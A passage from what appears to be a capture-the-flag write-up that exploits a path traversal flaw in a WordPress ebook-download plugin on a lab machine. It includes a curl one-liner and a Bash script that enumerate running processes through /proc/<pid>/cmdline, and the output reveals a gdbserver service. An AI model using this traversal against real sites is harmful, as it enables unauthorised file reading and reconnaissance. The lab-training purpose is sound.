 I can use `tr` to [replace the nulls with whitespace](https://stackoverflow.com/a/42592972), and `cut` to remove the beginning and end:

```

oxdf@hacky$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
/usr/sbin/apache2 -k start

```

The breaks down as:
- `tr '\000' ' '` - replace nulls with spaces
- `cut -c115-` start at character 115 and print the rest. I’ll note that 115 is three times the length of the parameter plus 1.
- `rev | cut -c32- | rev` - reverse the string, start 32 characters in, and then reverse again, effectively removing the last 31 characters.

This traversal also works with absolute paths, so `ebookdownloadurl=/proc/self/cmdline`.

#### Bash Script

I can make a quick Bash script from this to loop over a range of pids and try to find processes:

```

#!/bin/bash

for i in $(seq 1 50000); do

    path="/proc/${i}/cmdline"
    skip_start=$(( 3 * ${#path} + 1))
    skip_end=32

    res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}ne -o- | tr '\000' ' ')
    output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi

done

```

This effectively does what I showed above, capturing the results with nulls replaced in `res`, then cutting the start and end and saving as `output`, and finally printing the pid and the command line if it’s there.

This is a bit slow, but good enough to do the job. I hope to come back and do a post and/or video on parallelizing this in the future.

The script clears the first 1000 processes in a minute or so, which is enough to spot PID 851:

```

oxdf@hacky$ ./brute_processes.sh  
1: /sbin/init auto automatic-ubiquity noprompt 
486: /lib/systemd/systemd-journald 
512: /lib/systemd/systemd-udevd 
529: /lib/systemd/systemd-networkd 
...[snip]...
826: /usr/sbin/cron -f 
829: /usr/sbin/CRON -f 
830: /usr/sbin/CRON -f 
851: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done 
853: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
```